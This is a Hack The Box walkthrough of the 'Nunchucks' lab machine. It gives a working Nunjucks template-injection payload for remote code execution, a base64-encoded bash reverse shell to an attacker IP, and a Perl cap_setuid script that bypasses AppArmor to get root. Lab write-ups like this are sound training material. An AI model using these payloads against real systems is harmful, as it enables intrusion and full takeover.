




# Nunchucks



Nunchucks is an easy Linux Hack The Box machine that starts with a reflected SSTI on a subscription form and ends with root access through a Perl script and an AppArmor bypass.

## Reconnaissance

I started with a full Nmap scan against the target.

```bash
sudo nmap -T4 -p- -oN allports -sC -sV 10.10.11.122
```

The scan showed SSH, HTTP, and HTTPS:

```text
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
```

The TLS certificate referenced `nunchucks.htb`, so I added that to `/etc/hosts`.


```bash
echo '10.10.11.122 nunchucks.htb' | sudo tee -a /etc/hosts
```

## Web Enumeration

The website had a signup page, but account creation did not work. Inspecting the requests in Burp showed API endpoints for signup and login.





Directory brute forcing did not reveal much, so I switched to subdomain discovery. That turned up a second host:

- `store.nunchucks.htb`

I added that to `/etc/hosts` as well.

```bash
echo '10.10.11.122 store.nunchucks.htb' | sudo tee -a /etc/hosts
```

The store page contained a subscription form, and the submitted input was reflected back to the page.



## Template Injection


Testing with `{{7*7}}` returned `49`, which confirmed a server-side template injection issue.


I first tried a common Jinja2 RCE payload, but it failed. After testing template-engine-specific payloads, I determined that the backend was **Nunjucks**.

A working command execution payload looked like this:

```text
{{range.constructor("return global.process.mainModule.require('child_process').execSync('whoami')")()}}
```

That confirmed remote code execution.

## Foothold

To get a shell, I used a base64-encoded reverse shell inside the Nunjucks payload.

```text
{{range.constructor("return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzEyMzQgMD4mMQ== | base64 -d | bash')")()}}
```

That returned a shell as `david`.

I then read the user flag from:

```text
/home/david/user.txt
```

## Privilege Escalation

In `/opt`, I found a Perl backup script named `backup.pl`.

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

The script used `POSIX::setuid(0)`, and linpeas showed that Perl had the `cap_setuid` capability. A standard GTFOBins-style Perl command could spawn a shell, but `/bin/bash` did not behave as expected because of AppArmor restrictions.

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami"'
```


I bypassed that by using an AppArmor shebang technique and creating a small Perl script that set UID 0 and executed `/bin/sh`.

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > test.pl
chmod +x test.pl
./test.pl
```

That gave me a root shell.

## Attack Path

- Enumerate SSH, HTTP, and HTTPS.
- Add `nunchucks.htb` and discover the `store` subdomain.
- Confirm SSTI with `{{7*7}}`.
- Identify Nunjucks as the template engine.
- Use Nunjucks RCE to execute system commands.
- Launch a reverse shell as `david`.
- Inspect `/opt/backup.pl`.
- Abuse Perl `cap_setuid` and AppArmor behavior.
- Spawn a root shell and read `root.txt`.
